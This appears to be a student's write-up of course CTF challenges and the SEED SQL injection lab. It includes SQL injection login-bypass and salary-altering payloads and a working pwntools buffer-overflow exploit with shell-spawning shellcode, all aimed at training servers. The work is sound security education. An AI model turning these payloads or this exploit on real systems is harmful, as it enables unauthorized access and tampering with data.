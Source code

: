 # Trabalho realizado na semana #8 e #9


---

## CTF 


### Week 8 - Challenge 1

After analyzing the index.php file, we notice that this line is vulnerable to a SQL injection attack. 

![](https://i.imgur.com/UvwO3PI.png)

By filling the form with the following input, it was possible to login as `admin`.

```
username: admin';--
password: anything
```
Our strategy was to use `--` which creates a comment in SQL. By doing this, it is not necessary to write in the password field.

![](https://i.imgur.com/5yEv8YM.png)

Flag:

```
flag{94007faac7bd8b7b6681291878980fc1}
```

### Week 8 - Challenge 2

After executing <kbd>checksec program</kbd> we got the following output:

![](https://i.imgur.com/rUstDS0.png)

After analyzing main.c we realized that this was a buffer overflow attack.  So we want to overwrite the return address of the function. When it returns this address, it will execute the code that is at that address by executing it in the shellcode.

To do this, we start by taking the value of the buffer address (of 100 bytes) and transform the corresponding shellcode, in hexadecimal, into an array of bytes.

Then we create a variable *fp*, frame pointer, which represents the 8 bytes of the stack, which are after the buffer. So we initialize the variable with eight 0's in hexadecimal. Finally we create the string that will be sent to the exploit and construct the final string to be sent, the shellcode followed by the string created earlier.

Using the following code, we are able to accomplish this:

```
from pwn import *

DEBUG = False

if DEBUG:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4001)

txt = p.recvuntil(b":").decode()
addr = re.search('0x(.+?).\n',txt).group(1) 

buf = bytearray.fromhex(addr)
buf.reverse()

shellcode= bytearray.fromhex("31c050682f2f7368682f62696e89e3505389e1b00bcd80")
fp= bytearray.fromhex("0"*8)
finalString = b"a"*77 + fp*2 + buf

p.sendline(shellcode + finalString)
p.interactive()
```

Finally, we ran it and using the command <kbd> cat flag.txt </kbd> we get the flag.

![](https://i.imgur.com/sE4z2RY.png)


flag:
```
flag{324a995576262f6f5563aa6f3908b45a}
```

## SQL Injection Attack Lab

### Task 1

After running the following SQL command:

```
SELECT * FROM credentials WHERE name='Alice';
```

The following information about Alice was provided:

![](https://i.imgur.com/Y0tHPjq.png)

### Task 2 

#### 2.1

Due to a vulnerability in the following code: 

![](https://i.imgur.com/Xi0VK2q.png)

We can manipulate the admin authentication using the following input:

```
username = admin'; #
password = anything
```

This will cause the string to be closed leaving the rest of the code commented before the password input:

```
WHERE name='admin'; #' and Password='$hashed_pwd'" 
```

This will allow us to log in without a password:

![](https://i.imgur.com/oFyBsqO.png)


#### 2.2

We can log into the web application using the following command line:

```
'www.seed-server.com/unsafe_home.php?username=admin%27%3B%23&Password=11'
```
In hexadecimal:

- %27 -> ' 
- %3B -> ;
- %23 -> #

This will provide the same result:

![](https://i.imgur.com/dHHjDCO.png)


#### 2.3

There is a countermeasure implemented in unsafe_home.php which is the usage of mysqli::query(), from the PHP MySQLi extension. 

This means that we cannot perform SQL injection against MySQL through this method, since the mysqli::query() API does not allow multiple queries to be run in the database server, due to the concern of potential SQL injection.

```
$conn = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
$result = $conn->query($sql)
```

### Task 3

#### 3.1

Due to a vulnerability in the following code:

![](https://i.imgur.com/S72KTHE.png)

We can manipulate the the edit page. 

Firstly we logged in as Alice using <kbd>alice';#</kbd> where we found the edit profile page and updated the nickname field with the following code:

![](https://i.imgur.com/IatjOF7.png)

This will change alice's salary to 30000:

```
(...)
nickname='', salary='30000' ,email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;"
(...)
```

Alice's profile after:

![](https://i.imgur.com/1245SJY.png)



#### 3.2

In order to change Boby's salary using Alice's profile we used the following code:

```
', salary = '1' where name='boby';#
```

This will change Boby's salary to 1 since the # at the end hides the query related to Alice:

```
(...)
nickname='', salary='1' where name='boby'; # ,email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;"
(...)
```

After this we logged in as admin where we can see all the employee information and confirm Boby's salary was altered:

![](https://i.imgur.com/qtPMuzr.png)

